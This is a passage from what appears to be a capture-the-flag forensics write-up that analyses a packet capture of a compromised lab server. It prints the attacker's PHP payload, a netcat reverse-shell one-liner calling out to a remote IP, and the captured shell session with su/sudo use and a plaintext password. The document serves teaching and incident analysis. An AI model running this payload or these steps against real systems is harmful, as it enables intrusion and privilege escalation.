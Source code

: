 The Payload is `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

### What password did the attacker use to privesc?
If we filter the PCAP for the port 4242 (`tcp.port == 4242`), we can find the TCP stream over that the attacker interacts with the reverse shell:
```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL

[...]
```
The attacker tried to get higher privileges (_su_ and _sudo_) and uses the password: `whenevernoteartinstant`
